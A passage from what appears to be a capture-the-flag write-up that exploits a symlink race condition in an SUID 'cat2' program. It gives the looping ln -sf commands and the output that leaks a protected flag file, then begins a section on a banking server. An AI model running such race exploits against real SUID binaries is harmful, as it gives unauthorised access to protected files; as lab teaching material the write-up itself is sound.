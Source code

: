 
We can exploit this race condition by creating a loop that will constantly switch from linking to a file we created and the flag file and start it in the background. Afterwards, we run the program that can access the flag in a loop so it constantly runs the program. 

We are hoping on the perfect timing where:
1. The symbolic link is linked to our own file called `myfile`
2. `cat2` checks if we are the owner to that file, which we are
3. The symbolic link gets overwritten to the `/home/run/flag` file
3. Once `cat2` outputs the file, it accesses it again and prints out the `/home/run/flag` file

### Output

```bash
race@car:~$ while true; do ln -sf /home/run/flag link; ln -sf myfile link; done &
[1] 1040
race@car:/home/run$ while true; do ./cat2 /home/race/link; done
Welcome to cat2!
This program is a side project I've been working on to be a more secure version of the popular cat command
Unlike cat, the cat2 command performs additional checks on the user's security context
This allows the command to be security compliant even if executed with SUID permissions!

Checking the user's security context...
Context has been checked, proceeding!

The user has access, outputting file...

...

[SECURITY BREACH] The user does not have access to this file!
Terminating...
Welcome to cat2!
This program is a side project I've been working on to be a more secure version of the popular cat command
Unlike cat, the cat2 command performs additional checks on the user's security context
This allows the command to be security compliant even if executed with SUID permissions!

Checking the user's security context...
Context has been checked, proceeding!

The user has access, outputting file...

THM{R4**REDACTED**k5}
```

## Flag 3 -  Sprint
When we check the run directory we find a program called `bankingsystem.c`. It starts a server that listens on port 1337 for the commands: 'deposit', 'withdraw' and 'purchase flag'. The flag can be purchased for 15000. There is one caveat, the `money` variable is set to 0 each time a command has been processed. Therefore, it is impossible to accumulate enough funds to purchase the flag.

